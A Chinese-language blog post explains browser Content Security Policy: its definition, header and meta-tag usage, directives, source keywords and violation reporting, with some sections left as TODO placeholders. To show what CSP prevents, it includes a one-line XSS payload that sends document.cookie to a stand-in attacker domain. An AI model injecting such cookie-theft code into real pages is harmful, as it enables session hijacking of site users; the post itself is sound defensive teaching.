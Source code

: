 ```yaml
---
title: CSP 浏览器内存安全策略
toc: true
date: 2021-08-11 19:18:36
categories:
  - 安全
sidebar: auto
---
```


## 什么是CSP?  ##

这里一段定义是来自于MDN社区
> Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware.

内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等，这些攻击可实现数据窃取、网站破坏和作为恶意软件分发版本等行为。该策略可让网站管理员指定客户端允许加载的各类可信任资源。

参考来源

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## 使用CSP的两种方式

 - 通过服务器 HTTP 头部的 Content-Security-Policy 来指定
 - 通过 HTML 文档的 meta 标签配置策略

 例如：

 使用 HTTP 头部，这里的 policy 为策略字符串

 ```
 Content-Security-Policy: policy
 ```

使用 HTML meta 标签的方式

 ```HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
 ```

 ## 主要防范目标

 CSP主要是防范 XSS 攻击，以及报告 XSS 攻击，如果页面存在漏洞让 JS 脚本注入，CSP 能限制脚本的运行，然后把损失降到最小

 

 ``` Javascript
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

 ```

 CSP 是通过限制加载到页面上的资源、域或者协议来实现的，例如，一旦入侵者找到漏洞注入了XSS攻击，入侵者可以通过 图片Ping的方式发送敏感信息到外部网站。CSP 可以指定允许信任域名下的图片、Script和样式表被加载到页面上，及时入侵者 XSS 入侵成功也无法通过这些方式发送数据，保证网站一定程度上安全。

 TODO 几个例子限制加载的资源


另外 CSP 也提供了只允许加载指定协议，例如HTTPS的资源，否则自动跳转到 HTTPS 版本。


## 使用 CSP 


当我们需要使用CSP生效就需要编写相应的策略，策略包括一系列指令组成和设置定的值组成。

例如，一个网站管理者允许内容来自信任的域名及其子域名 

```
Content-Security-Policy: default-src 'self' *.trusted.com

```

我们再看一条策略：

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

```

这条策略有4个指令 img-src 为图片资源，media-src 为视频媒体资源，script-src 为脚本资源。最重要的一个是 default-src 为所有的资源默认属性，这里设置为了 ‘self’ 的含义为所有的资源再不指定的情况下只能从自身域下加载。

TODO 描述 行内脚本


## 资源

<host-source>
<scheme-source>
	self
	unsafe-inline
	unsafe-eva
	none
	nonce-<base64值>
	strict-dynamic



### 

 TODO 讲解这几种模式

## 报告违规情况

CSP 提供了另外一个非常有用的模式 - 报告模式，如果在 HTTP 头部指定 Content-Security-Policy-Report-Only 可以将发生了任何违规的事件都会被报告出去，但是这个头部只会对报告生效，实际生效还是需要 在Content-Security-Policy 中指定。

在报告的策略中需要配置一个 report-uri 用于服务器接受违规报告情况，例如：


```

Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi


```

浏览器会向 report-uri 中指定的地址使用 POST 发送一个 JSON 格式的数据包。


数据包格式如下：

``` JSON

{
  "csp-report": {
    "document-uri": "http://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "style-src cdn.example.com",
    "original-policy": "default-src 'none'; style-src cdn.example.com; report-uri /_/csp-reports"
  }
}

```




